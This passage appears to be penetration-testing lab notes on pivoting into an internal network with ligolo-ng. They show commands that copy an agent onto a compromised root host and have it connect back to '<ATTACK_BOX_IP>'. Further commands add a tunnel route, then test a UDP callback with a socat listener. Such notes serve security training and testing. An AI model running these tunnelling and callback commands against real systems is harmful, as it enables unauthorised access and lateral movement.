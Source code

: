 Now that we have our tun interface, we have to set up our iptables and routing as we did for the ssh tun interface.

## ligolo

### First agent

#### Start server

```
[[ Ligolo~Server ]]*
cd tools/ligolo-ng
sudo ./proxy -selfcert
certificate_fingerprint
	#Hold onto this fingerprint, you will need it in a second
interface_create --name ligolo
```

#### Call back in with client

```
[[ Ligolo~Client ]]*
cd tools/ligolo-ng
scp agent root@lamp:
ssh root@lamp 'chmod +x agent'
ssh root@lamp './agent -connect <ATTACK_BOX_IP>:11601 -accept-fingerprint <FINGERPRINT_FROM_THE_SERVER>'
```

### Tun interface

#### Add route

```
[[ Ligolo~Server ]]
session
1
route_add --name ligolo --route 10.X.22.0/24
start
```

#### Call me

Notice in this iteration we use a udp listener instead of tcp.  Originally I tried a tcp listener, but my callback connection would timeout.  I am not sure why, but I only saw this with ligolo.

```
[[ Ligolo~Callme ]]*
lsof -i udp:4444
	socat -u udp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh linux 80 <ATTACK_BOX_IP> 4444 udp
cat /tmp/PROOF
```
